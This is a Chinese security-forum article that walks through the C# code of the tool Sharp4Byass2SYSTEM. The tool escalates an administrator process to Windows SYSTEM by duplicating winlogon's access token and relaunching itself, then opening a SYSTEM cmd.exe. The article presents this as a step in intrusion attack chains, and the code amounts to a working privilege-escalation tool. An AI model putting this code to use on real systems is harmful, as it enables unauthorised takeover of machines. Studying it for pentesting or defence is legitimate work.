

# Sharp4Byass2SYSTEM：一款通过令牌复制将进程提升至SYSTEM权限的工具-先知社区

> **来源**: https://xz.aliyun.com/news/16127  
> **文章ID**: 16127

---

在内网渗透环境中，获得 SYSTEM 权限是攻击链中的关键一环。通过分析 Windows 系统中对高权限进程的访问机制，我们发现利用 SYSTEM 账户运行的关键进程，如 winlogon 的访问令牌，可以伪装为操作系统内核，启动具有最高权限的进程。

### 0x01 检测用户是否具备管理员权限

在 .NET 中一般情况下，通过 WindowsPrincipal 和 WindowsIdentity 的组合，检测当前进程是否以管理员权限运行，具体代码如下 IsAdministrator 方法所示。

```
public static bool IsAdministrator()
{
    return (new WindowsPrincipal(WindowsIdentity.GetCurrent()))
            .IsInRole(WindowsBuiltInRole.Administrator);
}

```

上述代码中，WindowsIdentity.GetCurrent() 用于获取当前Windows用户的标识信息，一般就是表示当前进程的 Windows 用户。随后，使用 new WindowsPrincipal 创建一个WindowsPrincipal 对象，该对象中包含了检查用户角色的方法IsInRole。IsInRole方法识别出当前用户是否是内置的管理员角色。

### 0x02 识别当前进程的所有者权限

Sharp4Byass2SYSTEM.exe 工具内部调用 WMI 的 GetOwner 方法获取进程所有者的用户名和所在的域，然后通过判断进程所有者的用户名是否包含了关键词 "NT"，比如返回 "NT AUTHORITY\SYSTEM"，包含了NT就表示该进程是系统用户创建的，因此也具备了SYSTEM权限。具体代码如下所示。

```
public static string GetProcessOwner(int processId)
        {
            string query = "Select * From Win32_Process Where ProcessID = " + processId.ToString();
            ManagementObjectSearcher searcher = new ManagementObjectSearcher(query);
            ManagementObjectCollection processList = searcher.Get();
            foreach (ManagementBaseObject managementBaseObject in processList)
            {
                ManagementObject obj = (ManagementObject)managementBaseObject;
                string[] argList = new string[]
                {
                    string.Empty,
                    string.Empty
                };
                ManagementObject managementObject = obj;
                string methodName = "GetOwner";
                object[] args = argList;
                int returnVal = Convert.ToInt32(managementObject.InvokeMethod(methodName, args));
                bool flag = returnVal == 0;
                if (flag)
                {
                    return argList[1] + "\\" + argList[0];
                }
            }
            return "NO OWNER";
        }

```

上述代码简单的做下解读，首先，可以通过 Process.GetCurrentProcess().Id 获取当前运行的进程的PID，接着，调用 上述的 GetProcessOwner 方法，通过传递当前进程的 ID，获取进程的所有者信息。  
随后，通过调用 WMI 的 Win32\_Process 类查询获取进程的各种信息，例如 PID、名称、启动时间等，这里最核心的代码是获取进程所有者，具体如下所示。

```
string[] argList = new string[] { string.Empty, string.Empty };
int returnVal = Convert.ToInt32(obj.InvokeMethod("GetOwner", argList));
if (returnVal == 0)
{
    return argList[1] + @"\" + argList[0];
}

```

此处通过反射调用GetOwner方法，获取进程所有者的用户名和所在的域。如果 GetOwner 调用成功，返回字符串格式为 当前计算机域\用户名，如下图所示。


### 0x03 将当前进程提升至SYSTEM

当 Sharp4Byass2SYSTEM 以管理员权限运行且当前用户不是系统账户时，将触发自定义的 jumptoSys() 方法，尝试将当前进程提升为 SYSTEM 权限，具体代码如下所示

```
public static void jumptoSys()
{
            string procTostart = Assembly.GetEntryAssembly().Location;
            Process process = Process.GetProcessesByName("winlogon")[0];
            IntPtr procHandle = process.Handle;
            IntPtr tokenHandle = IntPtr.Zero;
            WinApi.OpenProcessToken(procHandle, 2U, out tokenHandle);
            WinApi.STARTUPINFO SINFO = default(WinApi.STARTUPINFO);
            SINFO.dwFlags = 1;
            SINFO.wShowWindow = 1;
            WinApi.SECURITY_ATTRIBUTES SECA = default(WinApi.SECURITY_ATTRIBUTES);
            IntPtr doubleDuplicateToken = IntPtr.Zero;
            WinApi.DuplicateTokenEx(tokenHandle, 33554432U, ref SECA, 2, WinApi.TOKEN_TYPE.TokenPrimary, out doubleDuplicateToken);
            WinApi.PROCESS_INFORMATION PINFO;
            WinApi.CreateProcessWithTokenW(doubleDuplicateToken, WinApi.LogonFlags.NetCredentialsOnly, null, procTostart, WinApi.CreationFlags.DefaultErrorMode, IntPtr.Zero, null, ref SINFO, out PINFO);
}

```

这里有个重新启动该进程的步骤，主要是当前运行程序的完整路径（通过 Assembly.GetEntryAssembly()获得），以便在提升权限后重新启动该进程，先保存在变量 procTostart 之中。随后，通过 Process.GetProcessesByName("winlogon")[0]，获取名称为 winlogon 的进程，而 winlogon 是一个高权限进程，通常运行在 SYSTEM 账户下。

```
WinApi.OpenProcessToken(procHandle, 2U, out tokenHandle);
WinApi.STARTUPINFO SINFO = default(WinApi.STARTUPINFO);
SINFO.dwFlags = 1;
SINFO.wShowWindow = 1;

```

接着，使用 OpenProcessToken 函数打开 winlogon 进程的访问令牌，并将令牌句柄存储在 tokenHandle 中，最后，使用 DuplicateTokenEx 函数创建一个新的令牌，并且指定 TokenPrimary 为主令牌，代码如下所示。

```
IntPtr doubleDuplicateToken = IntPtr.Zero;
WinApi.DuplicateTokenEx(tokenHandle, 33554432U, ref SECA, 2, WinApi.TOKEN_TYPE.TokenPrimary, out doubleDuplicateToken);

```

doubleDuplicateToken 是存储复制后的新令牌句柄，再使用 CreateProcessWithTokenW 函数启动一个进程，核心代码如下所示

```
WinApi.CreateProcessWithTokenW(
    doubleDuplicateToken, 
    WinApi.LogonFlags.NetCredentialsOnly, 
    null, 
    procTostart, 
    WinApi.CreationFlags.DefaultErrorMode, 
    IntPtr.Zero, 
    null, 
    ref SINFO, 
    out PINFO);

```

创建新的进程中，procTostart 变量是当前程序的路径，用于重新启动自身，doubleDuplicateToken 表示 SYSTEM 权限的令牌，这样重启后的进程权限是SYSTEM，并且进程的所有者变成NT系统用户。  
也因此，Sharp4Byass2SYSTEM.exe 在Main方法体内加了一句判断，当是NT系统账户时，启动一个cmd.exe，如下代码所示。

```
bool flag = Program.IsAdministrator() && !owner.StartsWith("NT");
if (flag)
{
    Console.WriteLine("Starting Elevating to SYSTEM");
    Program.jumptoSys();
}
else
{
    bool flag2 = Program.IsAdministrator() && owner.StartsWith("NT");
    if (flag2)
    {
        Process.Start("cmd.exe", "/c cmd.exe");
    }
}

```

在新启动的cmd.exe中，输入whoami，返回 "nt authority\system" ，至此，整个过程完成了Windows用户权限的提升，如下图所示。



### 0x04 小结

综上，Sharp4Byass2SYSTEM.exe 通过获取 Winlogon 进程的令牌来完成权限提升的方法，核心思想是利用 SYSTEM 权限的令牌启动一个新的进程，从而将当前程序提升到 SYSTEM 权限，为渗透测试或本地权限提升提供了极大的便利。
